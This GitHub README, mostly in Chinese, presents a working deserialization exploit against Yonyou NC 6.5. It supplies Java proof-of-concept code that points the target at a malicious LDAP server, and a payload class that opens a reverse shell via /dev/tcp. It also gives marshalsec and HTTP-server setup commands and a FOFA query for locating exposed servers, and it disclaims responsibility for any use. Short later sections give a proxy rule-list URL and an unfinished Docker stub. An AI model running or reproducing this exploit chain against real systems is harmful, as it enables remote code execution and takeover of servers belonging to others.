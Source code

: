 # Bigger than Bigger

大文件存储；供后来者学习探讨。

# ATTENTION PLZ

- 1.由于传播、利用此库/文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，本文作者不为此承担任何责任。

- Any direct or indirect consequences and losses caused by the dissemination and use of the information provided by this library/text are the responsibility of the user himself, and the author of this article does not bear any responsibility for this.

- 2.转载请申明出处：*[Bigger than Bigger](https://github.com/Bin4xin/bigger-than-bigger)*

- Please state the source for reprinting : *[Bigger than Bigger](https://github.com/Bin4xin/bigger-than-bigger)*

## 零：用友nc6.5反序列化依赖jar包

- 部分依赖jar包在安装完nc6.5系统后，一般在`C://yonyou//home//lib//`目录下，前提需要有nc6.5的安装包；或者：
    - *[点击更多以了解yonyou-nc6.5-lib](https://github.com/Bin4xin/bigger-than-bigger/tree/master/yonyou-nc6.5-lib)*
        - yonyou NC v6.5 ESA 
        - fofa：title= "YONYOU NC"
        - 本机运行环境
        ```
        java version "1.8.0_181"
        Java(TM) SE Runtime Environment (build 1.8.0_181-b13)
        Java HotSpot(TM) 64-Bit Server VM (build 25.181-b13, mixed mode)

        javac 1.8.0_181
        ```

### 0x01：攻击java代码

```java
import nc.bs.framework.common.NCLocator;

import java.util.Properties;


public class poc {

    public static void attack(String url, String jndipath) {
        Properties env = new Properties();
        if (!url.startsWith("http")) {
            url = "http://" + url;
        }
        env.put("SERVICEDISPATCH_URL", url + "/ServiceDispatcherServlet");
        NCLocator locator = NCLocator.getInstance(env);
        locator.lookup(jndipath);
    }

    public static void main(String[] args) {
        attack("http://192.168.1.1:81", "ldap://192.168.1.2:1099/remote");
    }
}
```
运行起来主要报`classNotFound`，必需第三方jar包如下：

- ncdepend.jar
- log4j-1.2.15.jar
- log.jar

### 0x02：远程利用java恶意代码

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.Serializable;
import java.util.Hashtable;

public class remote implements ObjectFactory, Serializable {

    public remote() {
        try{
            java.lang.Runtime.getRuntime().exec(new String[]{"/bin/sh","-c","sh -i >& /dev/tcp/ip/port 0>&1"});
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return null;
    }
}
```

### 0x03：使用方法

- jetbrains IDEA ：`file -> New -> Project -> Java`
	- *[点击更多以了解：IDEA与JAVA](https://blog.csdn.net/oschina_41790905/article/details/79475187)*
	- `src目录 -> New -> Java Class -> poc.java`即可；
	- `Project Structure -> Librabries -> + `添加lib文件夹即可；  
	
- 恶意LDAP：`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.1.2:8000/#remote" 1099`
    - *[点击更多以了解marshalsec](https://github.com/mbechler/marshalsec)*
- HTTP SERVER(remote.class)：`python3 -m http.server`

- 填入主方法下`attck url & jndipath` -> `run poc.main()`即可。

- enjoy.

### 0x04：参考链接

- [用友NC反序列化 简单分析](https://blog.sari3l.com/posts/608d18f0/#jwdp)
- [用友nc6.5详细安装过程](https://blog.csdn.net/weixin_38766356/article/details/103983787)

## 一：WALL_LISTS

### 1x01：使用方法
- SwitchyOmega
    - auto switch
    - 规则列表设置 -> AutoProxy
    - 规则列表网址  -> `https://raw.githubusercontent.com/Bin4xin/bigger-than-bigger/master/WALL_LISTS/lists.txt`
    - 立即更新

### 1x02：参考链接

- *[gfwlist/gfwlist](https://github.com/gfwlist/gfwlist)*

## 二：Bin4wvsDocker

### 2x01：🚧UNDER CONSTRUCTION🚧
